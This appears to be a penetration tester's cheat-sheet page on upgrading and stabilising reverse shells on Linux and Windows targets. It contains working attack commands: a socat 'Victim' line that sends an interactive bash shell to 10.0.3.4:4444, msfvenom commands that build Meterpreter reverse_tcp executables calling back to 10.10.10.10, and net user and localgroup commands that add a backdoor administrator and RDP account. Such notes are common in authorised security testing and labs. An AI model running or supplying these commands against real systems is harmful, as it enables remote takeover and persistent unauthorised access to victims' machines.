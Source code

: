 ```table-of-contents
```

Most [netcat](../Tools/netcat.md)-like tools provide a non-interactive shell, which means that programs that require user input such as many file transfer programs or `su` and `sudo` tend to work poorly, if at all. Non-interactive shells also lack useful features like tab completion and job control. It is always a good idea upgrade any non-interactive shell to an interactive one.

# Linux

## Python PTY

```python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## TERM and SHELL Exports

```bash
SHELL=/bin/bash script -q /dev/null

^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
```

## Socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Fix Rows and Columns

From a clean terminal:

```bash
┌──(kali㉿kali)-[~/…/lab/ntwk/it.local/10.1.1.1]
└─$ stty -a
speed 38400 baud; rows 60; columns 235; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```

From the "malformed" terminal:

```bash
www-data@luigi:/var/www$ stty rows 60 columns 235
stty rows 60 columns 235
```

---

# Windows:

## Rlwrap [^1]

[^1]: https://github.com/hanslub42/rlwrap](https://github.com/hanslub42/rlwrap

```bash
┌──(kali㉿kali)-[~/…/lab/ntwk/it.local/10.1.1.1]
└─$ rlwrap nc -nlvp 443
```

## Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter.exe
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter-x64.exe
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=10099 -f exe -o meter-x64.exe
```

## RDP

```powershell
net user maoutis Qwerty123! /add
net localgroup Administrators maoutis /add
net localgroup "Remote Desktop Users" maoutis /ADD
```
